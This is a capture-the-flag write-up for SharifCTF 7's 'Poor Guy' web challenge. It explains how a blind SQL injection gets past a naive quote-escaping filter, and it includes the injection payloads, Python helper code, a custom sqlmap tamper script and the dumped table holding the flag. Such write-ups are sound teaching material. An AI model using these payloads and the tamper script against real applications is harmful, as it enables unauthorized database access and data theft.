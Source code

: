 ```yaml
---
title: 'SharifCTF 7: Poor Guy (Web 150)'
date: 2016-12-18 00:00:00 Z
categories:
- writeup
tags:
- cat/web
- tool/sqlmap
layout: post
author: f0rki
---
```


* **Category:** Web
* **Points:** 150
* **Description:**

>I'm a poor guy.  Please buy me the secret flag.
>
>  * username: poorguy
>
>  * password: withnomoney
>
>  Hint: SQL Injection
>
>  Hint 2: `$input_escaped = str_replace("'","\'",$user_input);`

## Write-up

So we could log in to a bookstore and "buy" books if we had the serial number.
We were pretty confident that it was a SQL injection but didn't get anything
reasonable out with our queries. Only with the second hint we finally realized
what the problem was.

```php
$input_escaped = str_replace("'","\'",$user_input);
```

Now this is the poor mans version of `addslashes` and can be easily bypassed by 
prepending a `\` to every `'`. This way
`\'` turns to `\\'`, which is an escaped backslash.

Problem with this is that it breaks all the strings in the queries. So we
cannot really use such `'strings'` in our query. This can be avoided by 
replacing literal strings with  something like`CHAR(0x73)+CHAR(0x74)+CHAR(0x72)+CHAR(0x69)+CHAR(0x6e)+CHAR(0x67)`.

So we could achieve a blind SQL injection with the `book_selection` parameter.
For example with the following input:

```sql
9780060878849\' or 1=1 and substring(@@version,1,1)=5 -- x
```

With the following python helpers I managed to extract a good deal of
information out of the database, but got bored/annoyed by extracting
tablesnames etc.

```python

def view_book(book_selection):
    log.debug("payload: " + repr(book_selection))
    res = s.post('http://ctf.sharif.edu:8086/index.php',
                 data={'book_selection': book_selection})
    return res


def inject(pl):
    pl = r"1234\' " + pl
    return view_book(pl)


def char_encode(s):
    r = []
    for c in s:
        r.append("CHAR(0x{:x})".format(ord(c)))
    return "+".join(r)


def test_query(q):
    pl = r"1234\' or 1=1 and " + q + " -- x"
    for s in re.findall(r"[^\\]'(.+?)'", pl):
        # print(s)
        ns = char_encode(s)
        pl = pl.replace("'" + s + "'", ns)
    return "<img src" in view_book(pl).text.split("\n")[-10]
```

I turned to `sqlmap` for help, as all this tedious stuff is already impelmented
there.  Of course it wouldn't detect anything useful because it doesn't know
about the custom filter function. So I wrote a custom tamper script to modify
the payload, which then worked out.

```python
#!/usr/bin/env python

import re

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOWEST


def dependencies():
    pass


def char_encode(s):
    r = []
    for c in s:
        r.append("CHAR(0x{:x})".format(ord(c)))
    return "+".join(r)


def tamper(payload, **kwargs):
    for s in re.findall(r"[^\\]'(.+?)'", payload):
        ns = char_encode(s)
        payload = payload.replace("'" + s + "'", ns)
    # assert "'" not in payload, "nope nope " + repr(payload)
    return r"\' or 1=1 " + payload
```

`sqlmap` identified the following injection points

```
Parameter: #1* ((custom) POST)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: book_selection= AND SLEEP(5)-- uejC

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: book_selection=-5036 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x71767a7a71,0x486b646f6e65526d4679486976496a785a7975795778684a47784552524e4d6d4b4e72697070514a,0x7170
7a6a71),NULL-- SOWX
```

and dumped the table, which contained the flag

```
Database: book_shop
Table: books
[4 entries]
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
| book_id | book_name           | book_isbn     | is_premium | book_cover                           | book_serial                                 |
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
| 1       | Poor people         | 9780060878849 | 0          | .\\book covers\\poor people.png      | 123456                                      |
| 2       | Hacking for dummies | 9781118380932 | 0          | .\\book covers\\hack for dummies.jpg | 7890                                        |
| 3       | Secret flag         | 9788479536442 | 1          | .\\book covers\\secret flag book.jpg | SharifCTF{931b20ec7700a61e5d280888662757af} |
| 4       | Leading             | 9781473621640 | 0          | .\\book covers\\leading.jpg          | 239rj2if3r23re                              |
+---------+---------------------+---------------+------------+--------------------------------------+---------------------------------------------+
```

